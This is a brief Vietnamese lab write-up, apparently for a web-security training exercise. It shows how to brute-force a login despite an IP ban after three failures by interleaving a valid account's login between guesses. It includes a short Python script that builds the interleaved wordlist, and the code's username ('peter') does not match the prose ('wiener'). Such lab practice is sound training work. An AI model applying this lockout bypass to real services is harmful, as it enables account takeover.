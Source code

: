 Yêu cầu: Brute Force. Tuy nhiên khi quá 3 lần sai pass, ip sẽ bị ban. Để bypass thì sẽ nhập account đúng trước khi bị ban. 
![image](https://user-images.githubusercontent.com/62832067/156862195-5b2e9f03-a5b7-432c-b379-98dc0ff0b93f.png)
<br> Ta tạo 2 wordlist tương ứng: Cứ dòng lẻ thì là account "wiener" đúng còn dòng chẵn là account brute 
```
password = 'pass.txt' 
add = open("pass2.txt","w")
with open(password) as pwd:
    line = pwd.readline()
    while line:
        add.write("peter\n")
        add.write(line.strip())
        add.write("\n")
        line=pwd.readline()
add.close()
```
![image](https://user-images.githubusercontent.com/62832067/156863679-df8fcf98-2959-482a-a62a-ca27ecb3b61b.png)
